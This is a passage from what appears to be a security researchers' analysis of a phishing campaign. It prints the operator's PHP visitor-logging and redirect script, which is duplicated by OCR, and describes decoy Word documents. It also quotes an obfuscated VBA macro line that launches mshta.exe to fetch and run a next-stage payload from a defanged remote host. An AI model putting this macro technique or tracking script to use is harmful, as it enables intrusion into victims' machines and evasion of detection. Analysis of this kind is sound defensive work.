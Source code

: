 

if(isset($_GET['ip'])){
    	$szfilename = "allow.txt";
    	$pfile = fopen($szfilename,"ab");
    	$res= $_GET['ip'] . "\r\n" ;
    	fwrite($pfile,$res);
    	fclose($pfile);  
    	exit;

}

$szfilename = "error.txt";
$pfile = fopen($szfilename,"ab");
$res= $date . "-" . "\r\n".$ip . "\r\n" . $_SERVER['HTTP_USER_AGENT']."\r\n";
fwrite($pfile,$res);
fclose($pfile);  
header('Location: https://mail.google.com');




12345678910111213141516

if(isset($_GET['ip'])){    	$szfilename = "allow.txt";    	$pfile = fopen($szfilename,"ab");    	$res= $_GET['ip'] . "\r\n" ;    	fwrite($pfile,$res);    	fclose($pfile);      	exit; } $szfilename = "error.txt";$pfile = fopen($szfilename,"ab");$res= $date . "-" . "\r\n".$ip . "\r\n" . $_SERVER['HTTP_USER_AGENT']."\r\n";fwrite($pfile,$res);fclose($pfile);  header('Location: https://mail.google.com');




Also, we discovered that both malicious and benign documents are being delivered by this script. The operator maintains a pair of documents, one benign (un.doc) and the other malicious (v.doc), and delivers the appropriate one depending on the result of the victim verification step. The contents of decoy documents have various topics including the agenda of the “2022 Asian Leadership Conference”, a form of honorarium request and an Australian diplomat’s curriculum vitae. As we can see, the actor uses content the victim could be interested in, such as an event to be held in the near future, a specific request form, and the resume of a high-profile individual.

Decoy documents
Malicious document and method of delivering next stage payload
Malicious documents delivered to the victim contain a macro to fetch the next stage payload. The macro has a simple functionality and, interestingly, it spawns several child Windows command shells, probably intended for evading behavior-based analysis. Eventually, the macro executes a fetched payload with the mshta.exe process that is designed to execute a Microsoft HTML Application. The following scriptlet is part of a malicious macro in the document. It contains a remote server address to fetch the next stage payload.





cmd = "c" + "md /" + "c c" + "md /" + "c cm" + "d /" + "c c" + "m" + "d /" + "c c" + "md /" + "c c" + "md /" + "c msht" + "a.e" + "xe hxxp://leehr24.mywebcommunity[.]org/h.php"
Shell cmd, 0
Sleep 9000
cmd = "cm" + "d /" + "c TAS" + "KKI" + "LL /" + "F /" + "IM msh" + "ta.e" + "xe"
Shell cmd, 0
